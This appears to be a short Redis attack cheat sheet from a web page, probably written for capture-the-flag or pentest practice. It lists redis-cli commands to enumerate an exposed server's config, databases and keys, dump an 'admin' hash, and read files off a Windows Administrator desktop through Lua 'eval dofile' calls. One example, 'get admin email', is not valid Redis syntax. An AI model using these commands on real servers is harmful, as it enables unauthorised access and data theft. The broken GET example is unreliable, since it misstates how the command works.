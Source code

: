 # Set a password temporary until the service restarts.
> config set requirepass <password>

# Information on the Redis server
> info
> info keyspace

# List all
> config get *

# List all databases
> config get databases

# Select the database ('select <index>')
> select 0
> select 1
> select 12

# Read files and directories using Lua scripts
> eval "dofile('C:\\\\Users\\\\Administrator\\\\Desktop\\\\user.txt')" 0
> eval "dofile('C:\\\\Users\\\\<username>\\\\Desktop\\\\user.txt')" 0

# Find all keys
> keys *
Copied!
Get Key Value
# Get the type of value
> type <key_name>

# Get all fields and values of the hash stored at key.
> hgetall <key>
# e.g.
> hgetall admin

# Get a string value
> get <key> <field>
# e.g.
> get admin email
